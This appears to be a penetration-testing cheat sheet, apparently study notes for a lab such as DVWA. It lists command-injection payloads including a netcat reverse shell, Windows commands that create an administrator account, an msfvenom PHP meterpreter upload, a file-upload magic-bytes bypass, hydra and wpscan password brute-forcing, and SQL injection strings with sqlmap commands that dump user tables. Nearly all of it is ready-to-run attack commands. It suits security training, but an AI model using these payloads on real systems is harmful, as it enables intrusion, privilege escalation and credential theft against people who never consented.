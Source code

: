 
1. Command Execution Vulnerabilities - Linux
	1. 127.0.0.1 && ls
	2. 127.0.0.1 & ls
	3. 127.0.0.1 ; ls
	4. 127.0.0.1 | ls
	5. 127.0.0.1 |ls
	6. 127.0.0.1 && nc ‐c sh 127.0.0.1 9001
2. Command Execution Vulnerabilities - Windows
	1. Hostname
	2. Whoami
	3. Tasklist
	4. Taskkill /PID 3112 /F
	5. dir c:\
	6. net user
	7. net user test /add
	8. net localgroup Administrators test /add
	9. net user test
	10. dir c:\ "pin.txt"
	11. ! Take pin.txt
	12. type c:\"pin.txt“
3. File Upload Vulnerabilities
	1. msfvenom ‐p php/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 ‐f raw >exploit.php
	2. >use exploit/multi/handler set payload
	3. >php/meterpreter/reverse_tcp
	4. >run
	5. Content Type Check
4. Brute Force WebApp passwords with burp and hydra
	1. Proxy -> Intruder (wordlist) -> Length
	2. hydra -l admin -P /usr/share/wordlists/john.lst 'http-get- form://127.0.0.1:42001/vulnerabilities/brute/:username=^USER^&password=PASS^&Login=Login:H=Cookie\:PHPSESSID=7vs4mhc1q4dnp3f6cgikl01v9q; security=low:F=Username and/orpassword incorrect'
	3. BurpSuite -> Pitchfork (wordlist + recursive grep) (Redirections = always)
5. Chaining Multiple Vulnerabilities
	1. vim -> GIF89a; (magic bytes)
	2. exploit.php.jpeg
6. SQL injection vulnerabilities 1
	1. ' OR 1=1 #
	2. sqlmap ‐r req.txt ‐‐dbs
	3. sqlmap ‐r req.txt ‐D dvwa ‐‐tables
	4. sqlmap ‐r req.txt ‐D dvwa ‐T users ‐‐columns
	5. sqlmap ‐r req.txt ‐D dvwa ‐T users ‐‐dump‐all
7. SQL injection vulnerabilities 2
	1. 1 UNION SELECT user, password FROM users#
	2. 1’ UNION SELECT user, password FROM users#
8. SQLmap
9. directory search:
	1. gobuster dir -u http://<> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
	2. flags:
		1. -c - cookies
		2. -x - file extensions to search for, e.g. -x.html,.css,.js
		3. -H - headers, e.g. -H 'Header1: val1' -H 'Header2: val2'
		4. -k - skip TLS cert verification
		5. -n - don't print status codes
		6. -P - password for Basic Auth
		7. -s - positive status codes
		8. -b - negative status codes
		9. -U - username for Basic Auth
	3. dns mode:
		1. gobuster dns -d <domain.com> -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
	4. source: https://github.com/OJ/gobuster
10. Hacking Wordpress Websites with WPScan
	1. themes:
		1. wpscan --url http://<> --enumerate t
	2. plugins:
		1. wpscan --url http://<> --enumerate p
	3. users:
		1. wpscan --url http://<> --enumerate u
	4. pass attack:
		1. wpscan –-url http://<> –-passwords rockyou.txt –-usernames <user>
11. SQL injection on MSSQL db
12. SQL injection on MSSQL with SQLmap
	1. Other tools:
		1. mole
		2. blisqy
		3. blind-sql-bitshifting
		4. nosqlmap
13. Detect SQL injection vulnerabilities using DSSS
14. Detect SQL injection vulnerabilities using OWASP ZAP
	1. Other tools:
		1. acunetix web vulnerability scanner
		2. snort
		3. Burp Suite
		4. w3af